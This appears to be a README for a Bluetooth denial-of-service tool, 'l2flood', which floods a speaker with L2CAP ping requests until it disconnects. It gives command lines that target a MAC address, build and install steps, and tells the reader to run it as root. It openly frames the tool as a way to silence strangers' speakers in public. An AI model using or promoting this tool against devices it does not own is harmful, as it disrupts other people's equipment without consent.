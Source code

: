 Suppose there is a loud bluetooth speaker in public, and `94:3a:2c:e1:2b:07` is its MAC address. You can shut it off like below:

```bash
./l2flood 94:3a:2c:e1:2b:07       # Flood with as much threads as there are CPU cores.
./l2flood -n 50 94:3a:2c:e1:2b:07 # Flood with 50 threads.
```

A weak speaker CPU will not be able to process that many ping requests, and music decoding simultaneously so it disconnects.

## How to use

- Assuming you're on a Linux machine

1. `sudo apt install -y libbluetooth-dev`
2. `git clone https://github.com/indeqs/l2flood`
3. `cd l2flood`
4. `make`
5. `sudo make install`


## Note

- No, it doesn't work on Termux

- Q: I get the error `Can't create socket: Operation not permitted?`

  A: re-run as the root user